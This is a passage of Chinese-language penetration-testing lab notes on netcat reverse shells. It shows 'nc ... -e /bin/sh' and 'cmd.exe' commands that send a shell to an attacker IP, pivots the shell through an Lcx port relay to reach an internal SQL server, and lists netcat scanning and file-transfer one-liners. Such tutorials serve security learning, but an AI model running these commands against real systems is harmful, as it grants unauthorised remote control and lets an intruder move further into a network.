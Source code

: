 ![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/71-24.png)

受害：主动把shell反弹到对方ip端口上

```shell
nc 192.168.3.32  1234 -e /bin/sh
#linux
```

```shell
nc 192.168.3.32  1234 -e c:\windows\system32\cmd.exe
#windows
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/71-25.png)

此时攻击机上收到shell会话

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/71-26.png)

### 多向连接反弹 shell-配合转发

god\Webserver：

```shell
Lcx.exe -listen 2222 3333
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/71-27.png)

god\Sqlserver：

```shell
nc 192.168.3.31 2222 -e c:\windows\system32\cmd.exe
```

![71-28](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/71-28.png)

kali ：

```shell
nc -v 192.168.80.146 3333
```

和之前一样，sqlserver把自己的shell反弹给webserver的2222端口。webserver再把2222转到3333端口

由于kali能够和webserver联通，可以直接接收3333的shell，间接的取得了sqlserver的权限

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/71-29.png)

正向该怎么操作呢？实战中改怎么选择正向和反向？

### 相关 netcat 主要功能测试

指纹服务：nc -nv 192.168.76.143
端口扫描：nc -v -z 192.168.76.143 1-100
端口监听：nc -lvp xxxx
文件传输：nc -lp 1111 >1.txt|nc -vn xx.xx.x.x 1111 <1.txt -q 1
反弹 Shell：见上
